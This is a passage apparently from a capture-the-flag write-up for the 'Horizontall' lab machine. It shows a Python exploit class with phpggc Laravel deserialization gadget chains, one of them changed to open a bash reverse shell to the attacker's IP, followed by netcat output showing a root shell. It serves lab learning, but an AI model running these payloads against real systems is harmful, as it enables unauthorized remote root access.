 Exploit works and we have root. Now, we need to change one gadget that works on rev shell to our box and we will have a root shell:

```python
class EXP:
    #这里还可以增加phpggc的使用链，经过测试发现RCE5可以使用
    __gadget_chains = {
        "Laravel/RCE1":r"""
         php -d "phar.readonly=0" ./phpggc Laravel/RCE1 system id --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex (ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
        """,
        "Laravel/RCE2":r"""
         php -d "phar.readonly=0" ./phpggc Laravel/RCE2 system "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/6666 0>&1'" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex (ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
        """,
```

```bash
┌──(root💀kali)-[~]
└─# nc -lnvp 6666                                                        
listening on [any] 6666 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.105] 45366
bash: cannot set terminal process group (62851): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public#
```
